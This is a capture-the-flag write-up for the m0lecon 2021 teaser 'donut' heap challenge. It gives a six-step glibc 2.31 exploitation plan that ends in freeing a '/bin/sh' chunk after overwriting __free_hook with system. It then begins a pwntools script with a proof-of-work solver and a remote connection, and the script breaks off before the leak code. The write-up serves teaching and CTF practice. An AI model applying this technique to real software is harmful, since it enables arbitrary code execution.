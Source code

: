 [donut](/ctf/m0lecon-2021-teaser/donut/donut)
[libc-2.31.so](/ctf/m0lecon-2021-teaser/donut/libc.so.6)


Exploit looks like so:

1. leak heap address (and thus program base)
2. allocate big chunk so malloc uses mmap and then leak mmap base (and thus libc)
3. embed a fake chunk inside a bigger allocated chunk and then free the fake chunk
4. overwrite the fake chunk so that it's next pointer points to \_\_free\_hook - 1
5. allocate chunk of appropriate size so malloc returns \_\_free\_hook - 1 and write system to it
6. allocate a chunk containing "/bin/sh" and free it, calling system("/bin/sh")


```python
#!/usr/bin/env python3

from pwn import *
from hashlib import sha256

exe = ELF("donut")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.terminal = "kitty"

def solvepow(p, n):
    s = p.recvline()
    starting = s.split(b'with ')[1][:10].decode()
    s1 = s.split(b'in ')[-1][:n]
    i = 0
    print("Solving PoW...")
    while True:
        if sha256((starting+str(i)).encode('ascii')).hexdigest()[-n:] == s1.decode():
            print("Solved!")
            p.sendline(starting + str(i))
            break
        i += 1

def conn():
    if args.REMOTE:
        r = remote("challs.m0lecon.it",1743)
        solvepow(r, n = 5)
        return r
    elif args.GDB:
        return gdb.debug(exe.path,gdbscript="c")
    else:
        return process(exe.path)


def create_donut(r, size, data):
    r.sendline(b"c")
    r.sendline(b"0")
    r.recvuntil(b"(y/n)\n")
    r.sendline(b"y")
    r.sendline(str(size).encode())
    r.sendline(data)
    r.recvuntil(b"retrieve your donut! ")
    return int(r.recvline().rstrip(),16)

def main():
    r = conn()


    # first we're going to leak some addresses
```